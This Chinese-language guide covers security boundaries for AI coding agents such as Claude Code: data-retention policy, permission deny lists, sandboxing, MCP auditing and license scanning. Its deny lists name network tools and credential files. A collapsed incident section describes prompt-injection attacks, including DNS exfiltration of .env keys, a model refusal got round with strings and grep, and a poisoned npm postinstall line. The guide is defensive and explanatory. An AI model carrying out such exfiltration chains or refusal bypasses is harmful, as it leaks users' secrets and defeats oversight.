

# 072. AI coding 的安全红线怎么画？密钥泄露、数据外泄、第三方上传的真实事故与防护

**一句话**：红线只有三条——密钥泄露、数据外泄、第三方上传；按「部署模式选型 → 技术护栏 → 组织政策 → 出口许可证扫描」四层落地，其中强制项必须写进 managed settings，写进 CLAUDE.md 的不算强制。

## 30 秒结论

| 你看到的 | 立刻做 | 不想再犯 |
|---|---|---|
| 有人用个人 Pro / Max 账号跑公司代码 | 停用个人账号（顺手在其隐私设置里关掉训练开关），换公司主体的商用订阅（商用默认不训练） | managed settings 里禁用消费账号 |
| 工作目录里躺着 `.env`、云凭证 | 挪进 secret manager，permissions 加 denyRead | 运行时注入，不落盘 |
| 全量 auto-approve，或 MCP 全放行 | 关掉 bypass，MCP 清单入 git 走白名单 | 官方不对任何 MCP server 做安全审计 |
| 只 deny 了 `curl` / `wget` | 补上 `ping`、`nslookup`、`dig`、`host`，开 `/sandbox` | 出网通道不止一条，要纵深防御 |
| clone 完直接在陌生仓库里开会话 | 先查 `.claude/`、`.mcp.json`、postinstall 脚本再 trust | 仓库能夹带 skill 和 hook，trust 即生效 |
| 以为买了 Enterprise 就自动有 ZDR | 找客户团队按 organization 单独开通 | ZDR 不含在标准 Enterprise 套餐里 |
| 怀疑密钥已泄露 | 先轮换全部可能被读到的密钥，再查证据 | 排错六步见「怎么做」最后一节 |

三条红线和数据政策边界属「有定论」，官方文档明写；部署模式属「多解看场景」，按数据敏感度和密钥归属决定，下面这张决策树就是结论：



选型看数据敏感度和谁付费：**个人卡付的订阅禁止写生产代码，ZDR 必须按组织单独开通**。

## 怎么做

三层同时上：部署模式管「数据去哪」，技术护栏管「agent 能干什么」，组织政策管「人不能干什么」。三层之外再补一道出口检查：代码进生产库前扫许可证。

### 第一层：部署模式选型

| 场景 | 选什么 | 依据 |
|------|--------|------|
| 个人项目 / 开源 / 非敏感 | Pro / Max（消费版，务必手动关训练开关）或 API（走商用条款） | 消费版默认给你训练选项、开了留 5 年；API 走商用条款，默认不训练 |
| 一般企业代码 | Team 或 Enterprise 商用条款，标准 30 天留存 | 商用默认不训练、不留 5 年 |
| 强敏感 / 强合规（金融、医疗、SOX/PCI） | ZDR Enterprise（单独谈），或自托管 Bedrock / Vertex / Microsoft Foundry | ZDR 无服务端持久化；Bedrock/Vertex 数据留在你的云租户，可用 KMS/CMEK 客户托管密钥 |
| 核心资产 / 机密代码库（尤其国内公司用国外 agent） | 明令禁止接任何外部模型，只放边缘业务代码走 AI | 控制力最强的一档，社区里真在用的做法；数据一旦出境就不可逆 |

三个高频误解要点名[^1]：**走了 Bedrock 不等于 ZDR**，ZDR 只适用于 Anthropic 自家平台，Bedrock / Vertex / Foundry 按各自平台策略走；**买了 Enterprise 也不等于有 ZDR**，它不含在标准套餐里，管理员后台开不了，必须由客户团队按 organization 逐个开通，新建 org 不自动继承；**Development Partner Program 在 Bedrock / Vertex 上不可用**，那个项目就是会拿你数据训练的那个，自托管天然隔绝。

**合同层还有一条：个人卡付的订阅写公司生产代码等于没有保障。**Anthropic 商用条款的赔偿只覆盖 paid use（付费商用用量），GitHub Copilot 的 IP 赔偿只给 Business 和 Enterprise。个人 Pro 出了第三方 IP 索赔，合同上没人替你兜。这不是法律意见，签约前找法务核当前版本条款。

**怎么确认做对了**：第一，打开账单页，确认签约主体是公司而不是个人卡付的 Pro。第二，别信「公司说走内网了」，自己查实际通道（命令见折叠块）——看到 `CLAUDE_CODE_USE_BEDROCK=1` 就是走 AWS，什么都没有就是直连 Anthropic。

<details>

<summary>查实际通道的两条命令</summary>

```bash
claude config list
env | grep -E 'CLAUDE_CODE_USE_BEDROCK|CLAUDE_CODE_USE_VERTEX|ANTHROPIC_BASE_URL|ANTHROPIC_MODEL'
```

</details>

### 第二层：技术护栏

1. **保持最小权限。**Claude Code 默认只读，改文件或跑命令都要批准，别图省事全 auto-approve。
2. **deny 掉出网命令和密钥目录。**`curl`、`wget` 默认不自动放行，但要显式 deny 兜底；密钥目录加 denyRead。
3. **开沙箱。**用 `/sandbox` 给 Bash 加文件系统和网络隔离，再让 agent 自主跑。
4. **加 secret 扫描 hook。**用 PreToolUse hook 拦截含密钥的提交和外发，配合 gitleaks 或 trufflehog。
5. **别把生产密钥放在 agent 够得到的地方。**CVE-2025-55284 的直接前提就是 `.env` 躺在工作目录里[^2]。

团队级 `.claude/settings.json` 安全基线见下面折叠块，可直接抄。

<details>

<summary>团队级 settings.json 安全基线 + 13 条敏感文件 deny 清单（可直接抄）</summary>

```json
{
  "permissions": {
    "deny": [
      "Bash(curl:*)", "Bash(wget:*)",
      "Bash(ping:*)", "Bash(nslookup:*)", "Bash(dig:*)", "Bash(host:*)",
      "Read(./.env)", "Read(./.env.*)", "Read(~/.aws/**)", "Read(~/.ssh/**)"
    ],
    "ask": ["Bash(git push:*)"]
  },
  "sandbox": true,
  "enableAllProjectMcpServers": false
}
```

手动补上 `ping`、`nslookup`、`dig`、`host`，是对「DNS 外泄」那类攻击做纵深防御：研究者向官方提的修复建议就是把它们移出自动白名单（官方未公布 v1.0.4 的具体修复方式），显式 deny 能让它们连「批准一次」的机会都没有。具体配置项以你所在版本的 [permissions 文档](https://code.claude.com/docs/en/permissions) 为准。

上面只列了 `.env` 和两个云凭证目录，实际该护住的敏感文件远不止这些——凭证的形态很杂，漏一类就等于没堵，完整 13 条如下：

```json
{
  "permissions": {
    "deny": [
      "Read(./.env)",
      "Read(./.env.local)",
      "Read(./.npmrc)",
      "Read(./.pypirc)",
      "Read(~/.ssh/**)",
      "Read(~/.aws/credentials)",
      "Read(~/.config/gcloud/application_default_credentials.json)",
      "Read(~/.docker/config.json)",
      "Read(./**/*.pem)",
      "Read(./**/*.key)",
      "Read(./**/*-service-account.json)",
      "Read(~/.claude.json)",
      "Read(./.mcp.json)"
    ]
  }
}
```

分四类看，就知道它为什么不能再短：包管理器凭证（`.npmrc`、`.pypirc`，直接连着发布权限）、云与容器凭证（AWS / gcloud / Docker / service account）、私钥文件（`.ssh`、`.pem`、`.key`），以及**agent 自身的配置文件**（`~/.claude.json`、`.mcp.json`）——最后这类最容易漏：读到它就知道你的护栏长什么样，写进去就等于自己给自己提权，deny 之外还要靠 sandbox 兜住写入。

顺带一条同样重要的：**别做宽泛 allow**。`Bash(*)`、`Bash(curl *)`、`Bash(npm *)`、`Bash(node *)`、`Bash(python *)` 这些看着方便，实际把整条命令通道敞开了——`npm` 能跑任意 script，`python` 能读任何文件。allow 只放固定低风险命令（`Bash(git status)`、`Bash(npm run lint)`、`Bash(npm test)`），网络请求、装依赖、执行脚本、改配置一律逐次确认。

真正的防线顺序是：**权限边界 > 沙箱隔离 > token scope > 人工审批 > prompt 防御**。写在系统提示词里的「不要读密钥」排在最后一位，因为它是唯一可以被注入内容说服的那一层。

</details>

### 第二层补充：信任陌生仓库之前，先看它的 AI 指令入口

`git clone` 完直接在里面开 agent，等于把这个仓库作者的指令当成了你自己的指令。仓库可以夹带 `.claude/skills/`、`.mcp.json`、hooks，在你信任工作区之后就自动生效。所以 trust 之前先过一遍八个入口，逐个清单见折叠块。

**怎么确认做对了**：clone 之后先别进目录开会话，在外面先跑折叠块里那两条排查命令（`ls -a repo/.claude repo/.mcp.json` 与 grep `postinstall`），有输出就人工看过再决定 trust。看到下面任何一条就停手：自动添加 MCP server、修改 Claude 全局配置、宽泛的 `allowed-tools`、hooks 自动执行、`curl | bash`、读 `.env` 或 `.ssh` 或云凭证、启动来路不明的本地 server。

<details>

<summary>排查命令、八个入口分别该看什么，以及第三方 Skill 怎么审</summary>

```bash
ls -a repo/.claude repo/.mcp.json 2>/dev/null
grep -rn "postinstall\|prepare\|preinstall" repo/package.json 2>/dev/null
```

| 入口 | 看什么 |
|---|---|
| `.claude/` | 有没有你没预期的目录 |
| `.claude/settings.json` | 有没有预授权的 allow、有没有关掉的护栏 |
| `.claude/skills/` | skill 的 `allowed-tools` 是不是宽泛，目录里有没有脚本 |
| `.claude/hooks/` | 有没有自动执行的脚本 |
| `.mcp.json` | 有没有自动添加的 MCP server |
| `package.json` 的 `scripts` | 有没有伪装成正常任务的危险命令 |
| `install` / `postinstall` / `prepare` | 装依赖时就会跑，不需要你批准 |
| GitHub Actions workflow | 有没有由 issue / PR 内容触发的 AI workflow |

第三方 Skill 要按「插件加自动化脚本包」审计，不能按普通 Markdown 审计：Skill 目录可以带脚本，内容可以在发给模型之前先跑一条 shell 命令并把输出替换进去，`allowed-tools` 还能在激活时预授权工具[^5]。装之前至少看：`SKILL.md` 的 frontmatter、`allowed-tools`、附带脚本、动态 shell 命令、是否要求改全局配置、是否访问外部网络、是否要求 bypass / dontAsk / auto 模式。

</details>

**怎么确认做对了**：在会话里让 Claude 跑一次 `ping example.com`，预期它被直接拒绝而不是弹出批准框；再让它读一次 `.env`，预期同样被拒。两条里有一条弹出了批准框，说明这份 settings 没生效或被上层覆盖。

### 第三层：组织政策

1. **用 managed settings 全员强制，而不是写进 CLAUDE.md 建议。**CLAUDE.md 是上下文不是配置，可被忽略（见 [#010](../02-上下文工程/010-CLAUDE-md怎么写才生效.md)）。
2. **写死红线清单。**禁止把生产密钥、客户 PII、未脱敏数据喂进任何 AI 工具；禁止用个人消费账号跑公司代码。
3. **审计与监控。**用 `ConfigChange` hook 拦会话内改配置，用 OpenTelemetry 监控用量与异常（见 [#071](./071-AI-coding效能怎么度量.md)）。
4. **MCP 白名单。**官方明确不对任何 MCP server 做安全审计[^4]，所以 MCP 清单要入 git，只用自己写的或可信来源的。

MCP server 不是提示词，它是工具入口——本地 stdio server 本质上就是一个跑在你机器上的进程。装之前审四项（来源、command、scope、auth），别只看名字，名字最容易伪装。

<details>

<summary>MCP 四项审计具体看什么，以及高权限 server 的账号隔离</summary>

| 审什么 | 具体看 |
|---|---|
| 来源 | 是不是官方、有没有长期维护、发布链路可不可信 |
| command | 实际执行的完整命令是什么，有没有 install / postinstall |
| scope | 能碰到哪些目录、API、账号和系统 |
| auth | token 存在哪、是不是明文、会不会被转发出去 |

高权限那类（GitHub、Jira、Notion、数据库、云服务）再加一层账号隔离：单独账号、最小 scope、只读优先、短期 token，不接生产、不给发布权限。目标是让 token 即使泄露也只造成有限损失。

</details>

**怎么确认做对了**：`claude mcp list` 输出的每一项，都能在 git 里的白名单清单上找到对应条目，且你说得出它的完整启动命令。

<details>

<summary>企业侧 managed-settings.json 完整示例（可直接抄）</summary>

放在 macOS `/Library/Application Support/ClaudeCode/managed-settings.json`、Linux `/etc/claude-code/managed-settings.json`、Windows `C:\Program Files\ClaudeCode\managed-settings.json`。这一层优先级最高，任何用户或项目配置都覆盖不了它（分层机制见 [#083](../09-工具可靠性/083-permissions和hooks拦不住.md)）。

```json
{
  "permissions": {
    "deny": [
      "Bash(curl:*)", "Bash(wget:*)",
      "Bash(ping:*)", "Bash(nslookup:*)", "Bash(dig:*)", "Bash(host:*)",
      "Read(./.env)", "Read(./.env.local)",
      "Read(./.npmrc)", "Read(./.pypirc)",
      "Read(~/.ssh/**)", "Read(~/.aws/credentials)",
      "Read(~/.config/gcloud/application_default_credentials.json)",
      "Read(~/.docker/config.json)",
      "Read(./**/*.pem)", "Read(./**/*.key)",
      "Read(./**/*-service-account.json)",
      "Read(~/.claude.json)", "Read(./.mcp.json)"
    ],
    "ask": ["Bash(git push:*)"],
    "disableBypassPermissionsMode": "disable"
  },
  "allowManagedPermissionRulesOnly": true,
  "sandbox": {
    "enabled": true,
    "failIfUnavailable": true,
    "allowUnsandboxedCommands": false,
    "credentials": {
      "files": [
        { "path": "~/.aws/credentials", "mode": "deny" },
        { "path": "~/.ssh", "mode": "deny" }
      ]
    }
  },
  "enableAllProjectMcpServers": false,
  "forceLoginMethod": "console",
  "cleanupPeriodDays": 7
}
```

几个字段的用意：`allowManagedPermissionRulesOnly`（注意它是顶层键，不放在 `permissions` 里）让用户和项目 settings 里的 allow / ask / deny 全部失效，只认这一份；`disableBypassPermissionsMode` 禁掉 `--dangerously-skip-permissions`；`allowUnsandboxedCommands: false` 关掉「沙箱里失败就退到沙箱外重试」的逃生口；`forceLoginMethod` 堵住员工用个人消费账号登录；`cleanupPeriodDays` 缩短本地明文会话记录的留存。各开关的行为细节和验收方法见 [#083](../09-工具可靠性/083-permissions和hooks拦不住.md)。

**怎么确认做对了**：在受管机器上跑 `claude --dangerously-skip-permissions`，应当被拒绝启动；再在某个项目的 `.claude/settings.json` 里写一条 `"allow": ["Bash(curl:*)"]`，`/permissions` 里应当看不到它生效。

</details>

### 出口检查：进生产库前扫许可证

前三层管「数据别流出去」，这一层管反向风险：模型吐回来的东西干不干净。模型可能复现训练数据里的片段，第三方的侵权主张是独立成立的。

先破一个误解：**大家一提许可证污染就只盯 GPL，其实没标 license 的公开代码风险更高。**MIT / BSD / Apache 都有署名要求；没标 license 的按默认全权保留，等于什么都不许你做。

工具用 ScanCode，安装、扫描、汇总命令与 CI 配置全在折叠块里。

**怎么确认做对了**：两步。一是扫描输出的许可证集合，跟你们的允许清单一致（典型清单：MIT / Apache-2.0 / BSD-3-Clause）；冒出 GPL-3.0、AGPL-3.0，或 ScanCode 报了行号说某文件带第三方版权声明，就停下来人工看那几行。二是故意往测试分支粘一段带 GPL 头的文件并 push，CI 必须变红——光配上不验证等于没配，`allow_failure: true` 忘删就静默失效了。

<details>
<summary>ScanCode 安装与扫描命令、许可证集合汇总 + 接进 CI 的完整配置（GitLab CI 示例，GitHub Actions 同理）</summary>

```bash
# 安装并扫描：-l 许可证、-c 版权、-p 包清单、-i 文件信息
pip install scancode-toolkit
scancode -clpi --json-pp scan.json ./src

# 只看命中了哪些许可证
python -c "import json;d=json.load(open('scan.json'));\
print(sorted({m['license_expression'] for f in d['files'] for m in f.get('license_detections',[])}))"
```

```yaml
license-scan:
  script:
    - pip install scancode-toolkit
    - scancode -cl --json-pp scan.json ./src
    - python scripts/check_license.py scan.json   # 命中黑名单许可证则 exit 1
  allow_failure: false
```

`check_license.py` 自己写十行即可：读 scan.json，把 `license_expression` 汇总，与允许清单做差集，非空就 `sys.exit(1)` 并打印命中文件和行号。

</details>

### 排错：怀疑已经泄露了，怎么响应

第一步永远是轮换所有可能被读到的密钥——先假设已泄露再查证据，完整六步见折叠块。

<details>

<summary>泄露响应六步表（轮换 → 查本地 → 查出网 → 定位注入源 → 加固 → 合规上报）</summary>

| 步骤 | 动作 | 为什么 |
|------|------|--------|
| 1 | 立即轮换所有可能被读到的密钥（`.env`、CI secret、云凭证） | 先假设已泄露，轮换是最快的止血 |
| 2 | 查本地 `~/.claude/projects/` 明文会话记录和 shell 历史 | 看 agent 实际读了什么、发了什么 |
| 3 | 查出网记录：DNS 查询日志、`api.anthropic.com` 之外的异常连接、MCP 流量 | 出网通道是多样的，DNS 和官方 API 都被用过 |
| 4 | 定位注入源：最近 review 过的外部 PR、文件、网页、MCP | 间接提示注入藏在「让 AI 读的内容」里 |
| 5 | 升级 Claude Code 到最新版，收紧 deny 规则，开 sandbox | 已知 CVE 靠更新修复，护栏防下一次 |
| 6 | 涉及客户数据或合规范围时走正式 incident 流程加合规上报 | SOX、PCI、GDPR 都有强制披露时限 |

</details>

上报安全漏洞本身走官方 [HackerOne program](https://code.claude.com/docs/en/security)，不要公开披露未修复的漏洞。

## 为什么

### 三条红线，各自的风险面

AI coding agent 和传统补全式 AI 的根本区别，是它能读整台机器的文件、能跑命令、能出网。这三种能力把三个老问题放大了。

| 红线 | 风险面 | 为什么 AI 放大了它 |
|------|--------|-------------------|
| **密钥泄露** | `.env`、`~/.aws/credentials`、CI secret 被读走 | agent 为完成任务会主动 grep 密钥，还能被注入的指令诱导外发 |
| **数据外泄** | 源码、对话历史、客户数据经「能出网的通道」流出 | agent 有 WebFetch、Bash、MCP 等多条出网路径，堵一条还有一条 |
| **第三方上传** | 代码和 prompt 上传到模型厂商，被留存甚至用于训练 | 默认就在上传，问题在于「留多久、训不训、谁能看」 |

放大这三条的机制统一叫间接提示注入：恶意指令不写在你的对话里，而是藏在 agent 会读到的外部内容里——README、issue、PR 评论、网页、日志、下载的文件。模型把「资料」当成了「指令」，而它手里有真实权限。MCP 是这里最隐蔽的一条路径：工具响应里可以夹带隐藏指令，恶意指令也可以藏在**工具描述**里——你在界面上看到的是简化后的信息，模型看到的是完整描述[^5]。所以危险的从来不是 prompt 本身，是 prompt 后面接着的文件系统、shell、发布 token。

### 官方数据政策的准确边界

这是最多人搞错、也最该先对齐的一条[^1]。

**商用版默认不拿你的代码训练**，覆盖 Team、Enterprise、API 和第三方平台，标准留存 30 天，除非你主动加入 Development Partner Program。**消费版（Free / Pro / Max）一旦开训练就留 5 年**，不开留 30 天，用 Claude Code 登录消费账号同样适用——这是团队最容易踩的坑。**ZDR（零数据留存）不是买了 Enterprise 就自动有**，它只面向合格账号、按组织单独开通。

还有个常被忽略的本地面：**会话记录明文存在你自己的机器上**，路径 `~/.claude/projects/`，默认留 30 天，可用 `cleanupPeriodDays` 调整。密钥可能落进本地明文记录，所以磁盘加密和访问控制也得跟上。

保密的正解不是「信任厂商不看」，而是根本不把该保密的东西喂进去，再加上合同层的 ZDR 或自托管。

### AI 写的代码本身也不安全

即使数据不外泄，AI 产出的代码也可能自带漏洞。Veracode 分析了 100 多个模型和 80 个编码任务，45% 的 AI 生成代码引入了 OWASP Top 10 类漏洞，Java 场景失败率 72%，而且新模型并没有变得更安全[^3]。原因指向 vibe coding：开发者依赖 AI 生成代码，通常不会明确定义安全要求。

这条归 05 质量篇深讲，本篇只提示一点：安全红线里得有一层「AI 代码上线前过 SAST」（静态应用安全测试，即不运行代码、直接扫描源码找漏洞）。

<details>
<summary>四个真实已披露的事故（攻击链细节）</summary>

**事故 A：CVE-2025-55284，Claude Code 经 DNS 偷密钥。**攻击链四步：Claude Code 早期把 `ping`、`nslookup`、`dig`、`host` 放进了无需确认就能跑的白名单；攻击者在一个「请 Claude review 一下」的文件里藏了间接提示注入指令；被注入的 Claude 去读 `.env` 和 `/proc/PID/environ`，用 `strings` 加 `grep` 抠出 API key；再把密钥编码成 DNS 子域名，用 `ping` 发给攻击者的服务器，全程零人工确认。研究者提的修复建议是把这几个命令移出自动白名单；官方在 v1.0.4 修复，但未公布具体修复方式，是否照此建议实施未见官方确证。研究者的点评更值得记：直接让 Claude 干坏事会被拒，用 `strings` 加 `grep` 绕一下就绕过了安全判断，所以防护不能只靠模型自觉。披露 2025-05-26，修复 2025-06-06（v1.0.4），CVSS 7.1[^2]。

**事故 B：IDEsaster，30+ 漏洞横扫所有主流 AI IDE。**研究者半年挖出 30 多个漏洞、24 个 CVE，涉及 Cursor、Windsurf、GitHub Copilot、Claude Code 等（Claude Code 的问题以安全提醒方式处理，未单独发 CVE）。核心论断是：所有 AI IDE 实际上都在威胁模型里忽略了底层软件（IDE 本身），把自己的功能当作天然安全。攻击手法覆盖提示注入（藏在不可见 Unicode、HTML 注释、投毒的 MCP 里）、数据外泄、改 `.vscode/settings.json` 实现 RCE（CVE-2025-53773，Copilot）、密钥收割。这说明安全问题是整个品类的系统性问题，不是某一家的个案。

**事故 C：Claudy Day，出网通道就是内置能力。**三个漏洞链成一次完整攻击：URL 参数里的隐形提示注入 + 用 Files API 外泄 + claude.com 的开放重定向。关键在于沙箱本身受限但允许连到 `api.anthropic.com`，于是内置能力被变成了外泄通道。教训是：只堵「明显的出网命令」不够，任何被允许的连接，哪怕是发往官方 API，都可能被当成外泄通道。漏洞已披露修复。

**事故 D：Cline CLI 的 npm 投毒，AI workflow 把注入风险带进了供应链。**这一条按 Cline 官方 post-mortem 的口径写[^6]。2026-02-17，有未授权方用被窃取的 npm 发布令牌发布了 `cline@2.3.0`，该版本相对上一版的主要变化就一行：`package.json` 里加了 `"postinstall": "npm install -g openclaw@latest"`——装依赖时自动执行，不经过任何人批准。

关于令牌怎么丢的，要把「已确认」和「可行链路」分开，别把后者写成前者：

| 环节 | 高置信事实 | 表述边界 |
|---|---|---|
| 未授权发布 | `cline@2.3.0` 由受损的 npm publish token 发布 | 发布者身份未确认 |
| AI triage | issue triage workflow 用 Claude Code Action 处理不可信的 GitHub issue，且带 Bash 权限 | 存在提示注入风险，这点可确定 |
| cache 串味 | triage workflow 与 release workflow 共享 GitHub Actions cache 作用域，可能影响带发布凭据的 workflow | 是可行链路，不是唯一确认路径 |
| 整改 | 移除 AI triage workflow、移除发布相关 cache、轮换凭据、迁移 npm OIDC provenance | 属 Cline 自述整改 |

可复用的教训是配置层面的：**别让「不可信内容触发的 AI workflow」和「握着发布凭据的 workflow」共处一套 CI**。具体要避开的组合是——issue / PR / comment 触发 AI、AI workflow 有 Bash、AI workflow 碰 cache、和 release workflow 共享 cache 或 artifact、AI workflow 够得着 npm / PyPI / Docker 发布 token、发布用长期 token。稳妥做法：AI 只产出建议不碰发布凭据，release 走 OIDC / Trusted Publishing，triage 与 release 完全隔离。

组织侧的量化背景：ProjectDiscovery 调研了 200 名安全从业者，只有 38% 认为能跟上 AI 出码的速度，78% 担心公司密钥暴露。另有一条常被引用的「43% 员工往 AI 工具输入过敏感数据」，它实际出自该报道转引的 2025 National Cybersecurity Alliance 报告，不是 ProjectDiscovery 本次调研，引用时别张冠李戴。

</details>

## 别这么干

- ❌ **在账号和条款上想当然：用个人 Pro / Max 账号跑公司代码，或以为「买了 Enterprise」「走了 Bedrock」就等于零数据保留。**消费版开了训练留存 5 年，Anthropic 赔偿只覆盖 paid use、Copilot IP 赔偿只给 Business / Enterprise，个人档的合同保障基本为零；ZDR 要单独谈、逐组织开，且不覆盖 Bedrock / Vertex / Foundry。
- ❌ **把 `.env` 和生产密钥留在工作目录里让 agent 随手能读。**这是 CVE-2025-55284 的直接前提，用 secret manager 运行时注入。
- ❌ **护栏摆个样子：只堵 `curl`、`wget`，无脑 auto-approve、全放行 MCP，或把红线写进 CLAUDE.md 当「强制」。**DNS 和官方 Files API 都能当外泄通道，官方也不审计任何 MCP server；CLAUDE.md 是可被忽略的上下文，要强制就用 managed settings 加 hook——同理，配了 CI 许可证扫描却从没验证过能拦住，等于没配。
- ❌ **clone 完直接在陌生仓库里开会话。**仓库能夹带 `.claude/skills/`、`.mcp.json`、hooks 和 postinstall 脚本，trust 之后自动生效，先过一遍那八个入口。
- ❌ **让处理 issue / PR 的 AI workflow 和握着发布 token 的 workflow 共处一套 CI。**Cline 的 npm 投毒事件就发生在这个组合上。

<details>
<summary>换成 Cursor / Copilot 呢</summary>

| 工具 | 数据/训练默认 | 密钥·外泄护栏 | 合规部署选项 |
|------|-------------|--------------|-------------|
| **Claude Code** | 商用默认不训练、30 天留存；消费版可选，开则 5 年 | 默认只读 + 权限批准 + `/sandbox` + deny 规则 + WebFetch 独立上下文 + 域名安全检查 | ZDR Enterprise（单谈）/ Bedrock（KMS）/ Vertex（CMEK）/ Foundry |
| **Cursor** | 有 Privacy Mode；企业版可保证不训练 | IDE 内权限模型；CVE-2025-49150 曾被曝数据外泄 | 自托管选项有限，多依赖其云 |
| **GitHub Copilot** | 企业版不用你代码训练；有 content exclusion | CVE-2025-53773 曾被曝改 settings 实现 RCE | 走 GitHub / Azure 合规体系 |

三家在 IDEsaster 研究里都中招，所以没有哪家能靠「选它」就免除组织侧的防护。核心差异在两点：Claude Code 的护栏更细（sandbox、分层 permissions、managed settings 全员强制），合规部署路径也更明确（ZDR 加三大云自托管）。跨工具的定价和条款以各自官方为准。

</details>

## 延伸

**相关文章**

- [#040 AI 说「做完了」、测试也全绿，怎么知道代码是真的对？](../05-质量保证/040-怎么验证AI代码是真的对.md) —— 「AI 代码本身不安全」那层的验证体系归它，本篇只画红线
- [#074 团队的 AI coding 规范怎么立？哪些该强制、哪些该自由？](./074-团队AI-coding规范怎么立.md) —— 安全基线是规范里最该强制的一档，怎么写、怎么强制归它
- [#071 AI coding 的效能到底怎么度量？](./071-AI-coding效能怎么度量.md) —— 安全事故数可作为度量的反向指标之一
- [#010 CLAUDE.md 怎么写才真的生效？](../02-上下文工程/010-CLAUDE-md怎么写才生效.md) —— 为什么红线要用 managed settings 而不是 CLAUDE.md
- [#060 额度怎么突然就没了？先算清自己一天该烧多少](../07-效率与成本/060-一天该烧多少额度.md) —— 自托管 Bedrock / Vertex 的成本取舍归成本篇

**参考资料**

- [Claude Code Data usage](https://code.claude.com/docs/en/data-usage) 与 [Zero data retention](https://code.claude.com/docs/en/zero-data-retention) —— 支撑「为什么」第二节全部政策边界：训练政策、留存周期、ZDR 适用范围与「不覆盖 Bedrock/Vertex/Foundry」、本地明文缓存、静态加密（官方，2026-08-15 复核）
- [Claude Code Security — Claude Code Docs](https://code.claude.com/docs/en/security) —— 支撑第二、三层的权限模型、sandbox、提示注入防护、MCP 不做安全审计、事故上报（官方，2026-07）
- [Claude Code Settings](https://code.claude.com/docs/en/settings)、[Permissions](https://code.claude.com/docs/en/permissions) 与 [Sandboxing](https://code.claude.com/docs/en/sandboxing) —— 支撑 managed-settings 示例的字段名与层级（官方，2026-08-15 逐个核实）
- [Claude Code: Data Exfiltration with DNS (CVE-2025-55284) — embracethered](https://embracethered.com/blog/posts/2025/claude-code-exfiltration-via-dns-requests/) 与 [NVD CVE-2025-55284](https://nvd.nist.gov/vuln/detail/CVE-2025-55284) —— 支撑事故 A 的完整攻击链、修复版本 v1.0.4 与 CVSS 评分（社区安全研究 + 官方漏洞库，2026-08-15 核实）
- [Researchers Uncover 30+ Flaws in AI Coding Tools — The Hacker News](https://thehackernews.com/2025/12/researchers-uncover-30-flaws-in-ai.html) —— 支撑事故 B：IDEsaster 研究，24 CVE 横扫主流 AI IDE，含 CVE-2025-53773 归属 Copilot（社区，2025-12，2026-08-15 复核）
- [NVD CVE-2025-49150](https://nvd.nist.gov/vuln/detail/CVE-2025-49150) —— 支撑横向对比表「Cursor 0.51.0 之前可经 JSON schema 下载触发任意 HTTP 请求外泄数据」（官方漏洞库，2026-08-15 核实）
- [Claude.ai Prompt Injection Data Exfiltration — OASIS Security](https://www.oasis.security/blog/claude-ai-prompt-injection-data-exfiltration-vulnerability) —— 支撑事故 C：三漏洞链与 Files API 外泄通道（社区安全研究，2026-03）
- [GenAI Code Security Report — Veracode](https://www.veracode.com/blog/genai-code-security-report/) —— 支撑「45% AI 代码引入 OWASP 漏洞、新模型未改善」（行业，2025，多源交叉）
- [AI-written software creates hassles for security teams — Cybersecurity Dive](https://www.cybersecuritydive.com/news/ai-coding-security-concerns-projectdiscovery/818319/) —— 支撑折叠块末尾的 38% / 78% 调研数据（行业，2026-04）
- [Anthropic Commercial Terms of Service](https://www.anthropic.com/legal/commercial-terms) —— 支撑「赔偿只覆盖 paid use」（官方，Effective 2025-06-17，2026-08 查证）
- [GitHub Copilot Trust Center FAQ](https://copilot.github.trust.page/faq) 与 [GitHub Copilot Plans](https://github.com/features/copilot/plans) —— 支撑「Copilot IP 赔偿只覆盖 Business / Enterprise」，官方把 IP indemnity 列为组织版与个人版的核心差异（官方，2026-08-15 查证）
- [ScanCode Toolkit](https://github.com/aboutcode-org/scancode-toolkit/) 与 [license detection 原理](https://scancode-toolkit.readthedocs.io/en/latest/explanation/scancode-license-detection.html) —— 支撑出口检查一节的命令与「能定位到许可证片段起止行」（开源项目官方，2026-08 查证）
- [不懂就问-AI 开发 — V2EX 1219306](https://www.v2ex.com/t/1219306) —— 支撑「国内公司用国外 agent 的三条真实路径」（社区，2026-06）
